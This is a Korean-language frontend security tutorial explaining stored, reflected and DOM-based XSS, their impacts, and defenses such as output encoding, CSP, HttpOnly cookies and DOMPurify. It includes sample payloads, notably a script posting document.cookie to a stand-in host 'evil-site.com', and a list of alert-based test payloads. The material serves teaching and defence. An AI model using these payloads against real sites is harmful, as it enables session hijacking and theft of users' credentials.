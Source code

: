 # 프런트엔드 보안: XSS 공격 이해와 방어 전략

## 1. XSS란 무엇인가?

크로스 사이트 스크립팅(Cross-Site Scripting, XSS)은 웹 애플리케이션에서 가장 흔한 보안 취약점 중 하나입니다. 공격자가 웹 페이지에 악성 클라이언트 측 스크립트를 삽입하여 다른 사용자의 브라우저에서 실행되도록 하는 공격 기법입니다. 이 공격이 성공하면 공격자는 사용자의 세션을 탈취하거나, 웹사이트를 변조하거나, 사용자를 악성 사이트로 리다이렉션할 수 있습니다.

## 2. XSS 공격의 유형

### 2.1 저장형 XSS (Stored XSS)

저장형 XSS는 가장 위험한 형태의 XSS 공격입니다. 이 공격은 다음과 같이 작동합니다:

1. 공격자가 악성 스크립트를 웹 애플리케이션의 데이터베이스에 저장합니다 (예: 댓글, 사용자 프로필, 메시지 등).
2. 희생자가 해당 데이터가 표시되는 페이지를 방문할 때마다 악성 스크립트가 실행됩니다.
3. 이 공격은 지속적이며 많은 사용자에게 영향을 미칠 수 있습니다.

**예시:**

```html
<script>
  fetch("https://evil-site.com/steal", {
    method: "POST",
    body: JSON.stringify({ cookies: document.cookie }),
  });
</script>
```

### 2.2 반사형 XSS (Reflected XSS)

반사형 XSS는 다음과 같이 작동합니다:

1. 공격자가 악성 스크립트가 포함된 링크를 희생자에게 보냅니다.
2. 희생자가 링크를 클릭하면 요청이 서버로 전송됩니다.
3. 서버는 악성 스크립트를 응답에 "반사"하고, 이는 희생자의 브라우저에서 실행됩니다.

**예시:**

```
https://example.com/search?q=<script>alert(document.cookie)</script>
```

### 2.3 DOM 기반 XSS (DOM-based XSS)

DOM 기반 XSS는 클라이언트 측에서만 발생하며, 서버와의 통신 없이 발생합니다:

1. 취약한 JavaScript 코드가 URL 해시나 로컬 스토리지와 같은 불신뢰 소스에서 데이터를 가져와 DOM을 조작합니다.
2. 공격자가 이 취약점을 이용하여 악성 페이로드를 주입합니다.

**예시:**

```javascript
// 취약한 코드
document.getElementById("output").innerHTML = location.hash.substring(1);

// 공격 URL
// https://example.com/page.html#<img src=x onerror=alert(1)>
```

## 3. XSS 공격의 영향

XSS 공격이 성공하면 다음과 같은 심각한 결과를 초래할 수 있습니다:

- **세션 하이재킹**: 사용자의 쿠키와 인증 토큰을 훔쳐 계정에 무단 접근
- **자격 증명 도용**: 가짜 로그인 양식을 통해 사용자 이름과 비밀번호 탈취
- **웹사이트 변조**: 웹사이트의 콘텐츠나 동작 수정
- **악성 리다이렉션**: 사용자를 피싱 사이트로 리다이렉션
- **키로깅**: 사용자의 키 입력을 기록하여 민감한 정보 수집
- **웹캠이나 마이크 액세스**: 사용자의 기기에서 미디어 장치에 액세스

## 4. 프런트엔드에서 XSS 방어 전략

### 4.1 입력 검증 및 출력 인코딩

**입력 검증 (클라이언트 측):**

```javascript
// 정규식을 이용한 입력 검증
function validateInput(input) {
  const safePattern = /^[a-zA-Z0-9\s]+$/;
  return safePattern.test(input);
}

// 사용 예
if (!validateInput(userInput)) {
  // 오류 메시지 표시 및 처리
}
```

**출력 인코딩:**

```javascript
// 일반 텍스트로 삽입 (안전)
document.getElementById("output").textContent = userInput;

// HTML로 삽입 (위험)
document.getElementById("output").innerHTML = userInput; // 이것은 피해야 함!
```

### 4.2 컨텐츠 보안 정책 (CSP)

CSP는 XSS 공격을 막는 강력한 두 번째 방어선입니다:

```html
<!-- HTML 메타 태그로 설정 -->
<meta
  http-equiv="Content-Security-Policy"
  content="default-src 'self'; script-src 'self' https://trusted-cdn.com"
/>

<!-- 또는 HTTP 헤더로 설정 (권장) -->
Content-Security-Policy: default-src 'self'; script-src 'self'
https://trusted-cdn.com
```

주요 CSP 지시문:

- `default-src`: 모든 리소스의 기본 정책
- `script-src`: JavaScript 소스 제한
- `style-src`: CSS 소스 제한
- `img-src`: 이미지 소스 제한
- `connect-src`: AJAX, WebSocket 연결 제한
- `frame-src`: iframe 소스 제한

### 4.3 프레임워크 및 라이브러리의 보안 기능 활용

**React:**

```jsx
// 안전하게 HTML 렌더링
<div>{userContent}</div> // React는 기본적으로 이스케이프 처리함

// 위험 - dangerouslySetInnerHTML 사용
<div dangerouslySetInnerHTML={{ __html: userContent }} /> // 꼭 필요할 때만 사용
```

### 4.4 쿠키 보안 강화

XSS 공격으로부터 쿠키를 보호하기 위한 설정:

```javascript
// 서버 측에서 쿠키 설정 (예: Express.js)
res.cookie("sessionId", "abc123", {
  httpOnly: true, // JavaScript에서 쿠키에 접근 불가
  secure: true, // HTTPS 연결에서만 전송
  sameSite: "strict", // CSRF 공격 방지에도 도움됨
});
```

### 4.5 사용자 입력 관리 라이브러리 활용

DOMPurify와 같은 라이브러리를 사용하여 HTML을 안전하게 처리:

```javascript
// DOMPurify 사용 예
import DOMPurify from "dompurify";

// 사용자 입력 정화 후 사용
const cleanHTML = DOMPurify.sanitize(userInput, {
  ALLOWED_TAGS: ["b", "i", "em", "strong", "a"],
  ALLOWED_ATTR: ["href"],
});
document.getElementById("output").innerHTML = cleanHTML;
```

## 5. XSS 방어를 위한 모범 사례 체크리스트

- [ ] 모든 사용자 입력을 신뢰하지 말고 검증하기
- [ ] 무조건 필요한 경우가 아니라면 `innerHTML`, `outerHTML`, `document.write()` 사용 피하기
- [ ] 컨텐츠 보안 정책(CSP) 구현하기
- [ ] 쿠키에 HttpOnly, Secure, SameSite 플래그 사용하기
- [ ] 프레임워크의 기본 보안 기능 활용하기
- [ ] HTML 정화(sanitization) 라이브러리 사용하기
- [ ] 정기적인 보안 검사 및 취약점 스캔 수행하기
- [ ] XSS 공격 대응 계획 수립하기

## 6. 테스트 및 취약점 찾기

### 6.1 개발 단계 테스트

```javascript
// 테스트 페이로드
const testPayloads = [
  "<script>alert(1)</script>",
  '"><script>alert(1)</script>',
  '<img src="x" onerror="alert(1)">',
  '<svg onload="alert(1)">',
  "javascript:alert(1)",
];

// 각 입력 필드와 출력 위치에서 이러한 페이로드를 테스트
```

### 6.2 자동화된 도구

- OWASP ZAP
- Burp Suite
- Acunetix
- Netsparker

## 7. 결론

XSS 공격은 여전히 웹 애플리케이션의 주요 보안 위협 중 하나입니다. 프런트엔드 개발자는 입력 검증, 출력 인코딩, CSP 구현, 프레임워크의 보안 기능 활용 등의
방법을 통해 XSS 공격으로부터 사용자를 보호할 책임이 있습니다. 보안은 개발 프로세스의 모든 단계에서 고려되어야 하며, 정기적인 보안 교육과 테스트가 중요합니다.

---
